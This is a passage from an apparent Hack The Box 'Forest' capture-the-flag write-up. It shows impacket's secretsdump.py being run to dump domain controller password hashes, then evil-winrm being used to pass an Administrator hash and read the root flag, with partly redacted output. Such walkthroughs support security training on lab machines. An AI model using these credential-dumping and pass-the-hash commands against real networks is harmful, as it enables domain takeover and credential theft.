We can then use secretsdump.py from impacket to dump all of the system hashes (output not shown because spoilers).

```shell
kali@kali:~/ctf/htb/forest$ python3 /opt/impacket/examples/secretsdump.py -just-dc An00bRektn@htb.local
```

We pass the hash using `evil-winrm` and grab the root flag.

```shell
kali@kali:~/ctf/htb/forest$ evil-winrm -u Administrator -H 32693b11************************ -i htb.local

Evil-WinRM shell v3.2

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\Desktop\root.txt
68e7ab70************************
```
